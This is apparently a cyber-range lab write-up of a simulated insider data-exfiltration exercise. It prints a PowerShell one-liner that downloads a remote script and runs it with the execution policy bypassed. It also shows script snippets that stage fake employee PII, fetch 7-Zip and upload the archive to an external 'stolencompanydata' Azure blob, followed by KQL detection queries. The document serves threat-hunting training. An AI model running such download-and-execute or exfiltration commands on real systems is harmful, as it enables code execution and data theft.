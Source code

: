 # Project Appendix: Simulating Data Exfiltration

This document details the technical setup used to simulate the "Data Exfiltration by a Disgruntled Employee" scenario. The core of this simulation is a single PowerShell script designed to mimic common attacker techniques.

---

### 1. The Trigger Command

The simulation was initiated on the target machine by executing a one-line command. This command downloads the main exfiltration script from a repository and immediately runs it, bypassing the local execution policy to ensure it executes.

```powershell
Invoke-WebRequest -Uri '[https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1](https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1)' -OutFile 'C:\programdata\exfiltratedata.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\exfiltratedata.ps1
```
### 2. Analysis of the exfiltratedata.ps1 Script
The script performs a multi-stage operation to collect, stage, and exfiltrate data. Below are the key snippets that illustrate its functionality.

#### Data Collection
The script begins by creating a multi-line string containing fake, but realistic, employee PII to be saved in a CSV file.

```powershell
# Create the employee data with fake information
 $employeeData = @"
$($currentDateTime)
FirstName,LastName,SSN,PhoneNumber,Salary,DOB
Travis,Ward,294-75-2745,(703)785-1895,79976.31,1984-11-10
Paul,Berry,785-68-1220,001-875-136-8234x217,66220.38,1969-02-23
```

#### Tool Staging (Downloading 7-Zip)
Next, it downloads a legitimate, portable version of the 7-Zip utility from an external server to ensure it has the tools it needs.

```powershell
# Download 7zip
try {
    Invoke-WebRequest -Uri '[https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe](https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe)' -OutFile 'C:\ProgramData\7z2408-x64.exe'
    Log-Message "Downloaded 7zip installer to C:\ProgramData\7z2408-x64.exe"
} catch {
    Log-Message "Error downloading 7zip: $_" "ERROR"
}
```
#### Data Archiving
It then uses the newly downloaded 7-Zip to compress the CSV file into a ZIP archive, staging it for exfiltration.

```powershell
# Use 7zip to zip the temporary CSV file
try {
    & "C:\Program Files\7-Zip\7z.exe" a $zipFilePath $tempFilePath
    Write-Host "File zipped to: $zipFilePath"
    Log-Message "Zipped file to: $zipFilePath"
} catch {
    Log-Message "Error zipping file: $_" "ERROR"
}
```
#### Exfiltration to Cloud Storage
Finally, the script constructs and executes a web request to upload the ZIP archive to an attacker-controlled Azure Blob Storage account.

```powershell
# Define Azure Blob Storage variables
$storageUrl = "[https://sacyberrangedanger.blob.core.windows.net/stolencompanydata/employee-data.zip](https://sacyberrangedanger.blob.core.windows.net/stolencompanydata/employee-data.zip)"
$storageAccount = "sacyberrangedanger"
$storageKey = "CloudAccessKey-removed-for-safety-reasons"

# ... (Signature creation logic) ...

# Upload the blob using Invoke-WebRequest
try {
    Invoke-WebRequest -Uri $storageUrl -Method Put -Headers $headers -InFile $zipFilePath -UseBasicParsing
    Log-Message "Uploaded the zip file to Azure Blob Storage: $storageUrl"
} catch {
    Log-Message "Error uploading the zip file to Azure Blob Storage: $_" "ERROR"
}
```
### 3. KQL Queries Used for Detection

Below are the KQL queries used in Microsoft Defender XDR to trace the attacker's activity from the initial script creation to the final data exfiltration.

#### Query 1: Detecting Script Creation
This query was used to find evidence of the malicious script (`exfiltratedata.ps1`) being created on the target host by the user `analyst1`.

```kql
// Query to show creation of exfiltratedata.ps1 by analyst1
DeviceFileEvents
| where DeviceName == "arguswinten" and InitiatingProcessAccountName == "analyst1"
| where Timestamp between (datetime(2025-05-08T00:00:00Z) .. datetime(2025-05-08T23:59:59Z))
| where FileName == "exfiltratedata.ps1" and ActionType == "FileCreated"
| project Timestamp, ActionType, FileName, FolderPath, InitiatingProcessAccountName, InitiatingProcessFileName, InitiatingProcessCommandLine
| sort by Timestamp asc
```
#### Query 2: Identifying Data Archiving
This query looked for the creation of the specific `.zip` file that the script was designed to create, confirming that the data collection phase of the attack was successful.

```powershell
// Query to show creation of the specific ZIP file by analyst1's script activity
DeviceFileEvents
| where DeviceName == "arguswinten" and InitiatingProcessAccountName == "analyst1" 
| where Timestamp between (datetime(2025-05-08T00:00:00Z) .. datetime(2025-05-08T23:59:59Z))
| where FileName == "employee-data-20250508185834.zip" and ActionType == "FileCreated" and InitiatingProcessFileName == "7z.exe"
| project Timestamp, ActionType, FileName, FolderPath, FileSize, InitiatingProcessAccountName, InitiatingProcessFileName
| sort by Timestamp asc
```
#### Query 3: Confirming Data Exfiltration
This final query searched for network connections initiated by the malicious script to a known suspicious domain, confirming that the archived data was successfully sent off the corporate network.

```powershell
DeviceNetworkEvents
| where DeviceName == "arguswinten" and InitiatingProcessAccountName == "analyst1"
| where Timestamp between (datetime(2025-05-08T00:00:00Z) .. datetime(2025-05-08T23:59:59Z))
| where InitiatingProcessFileName =~ "powershell.exe" and InitiatingProcessCommandLine contains "exfiltratedata.ps1"
| where RemoteUrl contains "sacyberrangedanger.blob.core.windows.net"
| project Timestamp, ActionType, LocalIP, RemoteUrl, RemoteIP, InitiatingProcessAccountName, InitiatingProcessFileName, InitiatingProcessCommandLine
| sort by Timestamp asc
```

## Created By:
- **Author Name**: Jorge Juarez
- **Code creator**: [Josh Madakor](https://joshmadakor.tech/)
- **Author Contact**: https://www.linkedin.com/in/jorgejuarez1/
- **Date**: May 8, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `July 8, 2025`  | `Jorge Juarez`   

